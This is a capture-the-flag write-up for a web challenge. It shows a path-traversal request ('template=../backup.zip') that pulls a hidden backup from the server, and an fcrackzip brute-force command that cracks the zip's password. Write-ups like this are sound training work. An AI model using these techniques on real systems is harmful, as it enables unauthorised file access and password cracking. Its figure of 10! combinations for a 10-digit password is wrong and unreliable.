


# Instant Development Company 

## Original task


## First thought
Since the task is in the web category, my focus is on the source code and the parameterization of HTTP requests.

## 1. "Hidden" page
Accordingly, the first thing I did was to observe the source code.


There is a hidden page at ```/debug```, let's have a look

## 2. Debug page options



Here are many possibilities!  
The ping may be able to run other commands on the host computer,  
the site templates may give some information about the sites framework, that just maybe have some common vulnerabilities (like LFI in very bad php sites)  
and there is a messaging form with text input, most likely to be a POST request, there may be tricks to this too.

### a) Ping
I tried to ping google.com, the url of itself and localhost.




There are no obvious tricks here (that I know), so lets move on, maybe later...

### b) Download the templates


I downloaded all the templates from here, and checked them.  

The base template looked like this:


Searched for this kind of templating and it could be Django, this is some information!
Also checked basic tricks with Django, but I did not found much.
But I examined all the sources of templates, and in ```debug.html``` I have found a comment:  


`HA!` (in voice  of Al Pacino in "Scent of a Woman")  
So there is a backup.zip somewhere, just needs to find and crack it.  

##  3. Downloading the backup.zip
There is the download template function, maybe it can help to download another files.
I just copied the downloads HTTP Request as a curl call:  


The request seems like this:

```
curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates' \
    -X POST \
    -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: https://instant-development-company.secchallenge.crysys.hu' \
    -H 'Connection: keep-alive' \
    -H 'Referer: https://instant-development-company.secchallenge.crysys.hu/debug' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Sec-Fetch-Dest: document' \
    -H 'Sec-Fetch-Mode: navigate' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-User: ?1' \
    -H 'TE: trailers' \
    --data-raw 'template=debug.html'
```
So a bunch of headers, but also the parameter what file to download.  
I tried a few combinations for backup.zip, like:
```
    --data-raw 'template=backup.zip'
```
but the comment says, its in the root dir, so...
```
    --data-raw 'template=/backup.zip'
```
finally the third idea worked:
but the comment says, its in the root dir, so...
```
    --data-raw 'template=../backup.zip'
```
Boom!

## 4. Cracking the zip
It should be not too hard, the comment says its a 10 char password containing only numbers, so there are ```10! = 3 628 800``` combinations, not too much.
However, I need to find some tool for that, fortunately google easily found ```fcrackzip```.

```fcrackzip --help``` says:
```
USAGE: fcrackzip
          [-b|--brute-force]            use brute force algorithm
          [-D|--dictionary]             use a dictionary
          [-B|--benchmark]              execute a small benchmark
          [-c|--charset characterset]   use characters from charset
          [-h|--help]                   show this message
          [--version]                   show the version of this program
          [-V|--validate]               sanity-check the algortihm
          [-v|--verbose]                be more verbose
          [-p|--init-password string]   use string as initial password/file
          [-l|--length min-max]         check password with length min to max
          [-u|--use-unzip]              use unzip to weed out wrong passwords
          [-m|--method num]             use method number "num" (see below)
          [-2|--modulo r/m]             only calculcate 1/m of the password
          file...                    the zipfiles to crack

```
There is a directory mode, in the worst case scenario I can generate the ```10!``` passwords with some script and feed it to fcrackzip.  
But luckily ```fcrackzip``` has great bruteforcing options, the final command I used:

```
fcrackzip -b -c 1 -l 10-10 -u backup.zip
```
which means:
* ```-b```  brute force mode
* ```-c 1```  use characterset 1, which means only digits (see fcrackzip website)
* ```-l 10-10``` min and max length 10
* ```-u``` try to unzip with the potentional passwords (yes, bro... this is some weird bug, this should be automatic)

Anyway, I cracked the zip, that contained a file with some links...

```contracts.txt``` looks like this:
```
https://some_aws_link/contracthash
...
```

## 5. Capture the Flag

I wrote a bash script that downloads all the links and prints the content to console:
```
while read url; do
  echo "curl -k $url"
done <contracts.txt
```
Im missing something, this does not work, so just modified the file with simple "Find and replace" with a text editor to this:   
```contracts.txt``` after replace
```
curl -k https://some_aws_link/contracthash
curl -k ...
...
```
make the file executable:  
```chmod +x contracts.txt```

And run it

```bash contracts.txt```

Loong output, but Im pretty sure there is the flag somewhere (that looks like `cd22{...}` ), so just grep it!

```bash contracts.txt | grep cd22```

Voilá!

`cd22{******************}`
